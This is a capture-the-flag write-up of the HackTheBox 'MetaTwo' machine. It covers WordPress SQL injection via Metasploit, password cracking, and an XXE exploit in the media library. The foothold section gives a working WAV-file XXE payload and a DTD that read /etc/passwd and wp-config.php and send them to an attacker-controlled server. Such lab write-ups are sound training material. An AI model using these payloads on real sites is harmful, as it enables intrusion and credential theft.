 ```yaml
---
title: "HackTheBox - MetaTwo"
author: Nasrallah
description: ""
date: 2023-02-25 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, wordpress, cve, john, crack, metasploit, slqi, xxe, gpg]
img_path: /assets/img/hackthebox/machines/metatwo
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [MetaTwo](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.11.186                                                                                                                             
Host is up (0.26s latency).                                                                                                                                   
Not shown: 988 closed tcp ports (reset)                                                                                                                       
PORT      STATE    SERVICE       VERSION                                                                                                                      
21/tcp    open     ftp                                                                                                                                        
| fingerprint-strings:                                                                                                                                        
|   GenericLines: 
|     220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp    open     ssh           OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4b44617d2102d8fec1dc927fecd79ee (RSA)
|   256 2aea2fcb23e8c529409cab866dcd4411 (ECDSA)
|_  256 fd78c0b0e22016fa050debd83f12a4ab (ED25519)
80/tcp    open     http          nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/

```

We found 3 open ports, 21 running an ftp server, 22 is OpenSSH and 80 is http nginx web server.

### Web

From the nmap scan, we see we get redirected to the host metapress.htb, let's add it to `/etc/hosts` and check the web page.

![](1.png)

This is a wordpress website, we can use `wpscan` to look for plugins.

Checking the `/events/` page, we see that it uses a plugin called `bookingpress`.

![](2.png)

Searching on google for this plugin, we find it's vulnerable to an unauthenticated SQL injection(CVE-2022-0739).

We can find the exploit on metasploit `auxiliary/gather/wp_bookingpress_category_services_sqli`.

Let's use the exploit, set the required options and run it.

![](3.png)

We managed to get two password hashes, let's try cracking them.

![](4.png)

We got the manager's password, let's login.

![](5.png)

## **Foothold**

We a little to work with in this manager account, the one thing we have is `media library` where we can upload file to the server.

Checking `wappalyzer`, we see that the version of wordpress is 5.6.2.

Searching on google for `wordpress 5.6.2 media library exploit`, we find XXE vulnerability in media library [CVE-2021-29447](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/).

We can follow the steps described [here](https://www.exploit-db.com/exploits/50304) to read local files.

First, we create a .wav audio file using this command:

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.10.10:8000/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Next we create an `evil.dtd` file where we specify what file we want to read.

```bash
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.10.10:8000/?p=%file;'>" >
```

Now we start an http server in the same directory as the evil.dtd file.

```bash
php -S 0.0.0.0:8000
```

Now we upload the payload.wav file.

![](6.png)

Great! We got back `/etc/passwd` file, let's decode it.

![](7.png)

Nice, now let's read the wp-config.php file since it's the file that contains passwords in wordpress.

![](8.png)

Let's decode it.

![](9.png)

We got FTP credentials, let's authenticate to the ftp server we found earlier.

![](10.png)

We found a php file and downloaded it, let's check it out.

![](11.png)

We found jnelson's password, let's ssh to the target machine.

## **Privilege Escalation**

Checking jnelson's home directory, we found a hidden directory called `.passpie`.

![](12.png)

Searching on google we find that [passpie](https://github.com/marcwebbie/passpie) is a command line password manager.

![](13.png)

On the `~/.passpie/ssh` directory, we find two files `jnelson.pass and root.pass`. According to the description of `passpie`, those are password files that are encrypted using gpg.

On the passpie directory, we find a hidden file called keys that has a public/private pgp key.

![](14.png)

I copied the file to my machine with the command `scp jnelson@metapress.htb:./.passpie/.keys ./`.

Next we copy the private key to a separate file using this command `tail -n 45 keys > key.priv`.

Then we extract the password hash with `gpg2john` and then crack it.

![](15.png)

We got the password, now we can go back to our ssh session and run `passpie export` to get the clear text password.

![](16.png)


![](17.png)

We got the root password, we can either switch to it with `su root` or ssh to the machine as root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
